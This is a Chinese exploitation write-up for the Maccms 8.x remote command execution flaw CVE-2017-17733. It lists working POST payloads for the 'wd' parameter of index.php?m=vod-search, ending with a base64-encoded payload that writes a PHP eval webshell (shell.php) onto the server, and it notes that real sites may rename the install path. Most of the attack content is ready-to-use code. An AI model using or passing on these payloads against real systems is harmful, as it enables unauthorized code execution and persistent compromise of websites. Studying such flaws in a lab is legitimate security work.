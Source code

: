 maccms 远程命令执行（CVE-2017-17733）

描述: Maccms是一套跨平台的基于PHP和MySQL快速建站系统。。远程攻击者可借助index.php?m=vod-search请求中的‘wd’参数利用该漏洞执行命令。

影响版本： Maccms 8.x版本中存在安全漏洞

该漏洞点

![image-20211030145102336](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211030145102336.png)

利用wd参数post' wbeshell



漏洞利用

```
url：localhost/maccms8/?m=vod-search （有的网站不需要些maccms8，因为有的人会改名，改成maccms888啥的都有，这里靶场干脆不要这个）

post：wd={if-A:phpinfo()}{endif-A}


```

![image-20211030150041158](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211030150041158.png)

该点hi利用正则绕过

'/{if-([\s\S]*?):([\s\S]+?)}([\s\S]*?){endif-\1}/is'

如何要写入一个shell呢，我们只要控制它第二个子匹配获取到的是我们控制的恶意代码，并且绕过几个过滤替换的坑就好



```
{if-A:EXP}{endif-A}
```

由于不能带单引号，会被直接转义，于是尝试构造命令，先去读当前目录，结果被and被替换了，都忘记这个了。



```
wd={if-A:var_dump(scandir(pos(localeconv())))}{endif-A}
```

[![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1357258-20200915230943234-2034526991.png)](https://img2020.cnblogs.com/blog/1357258/202009/1357258-20200915230943234-2034526991.png)[![img](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5C1357258-20200915230956942-708041983.png)](https://img2020.cnblogs.com/blog/1357258/202009/1357258-20200915230956942-708041983.png)

网上的getshell基本都是通过base64编码写入，没有引号并不会报错，只是有一个notice，仍然可以使用，是因为被隐性作为常量对待了

通过base64编码构造shell并且写入

```
wd={ifA:fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgZXZhbCgkX1BPU1RbeXVueWluZ10pOw))}{endif-A}
```



漏洞原理：

https://www.cnblogs.com/BOHB-yunying/p/13655030.html



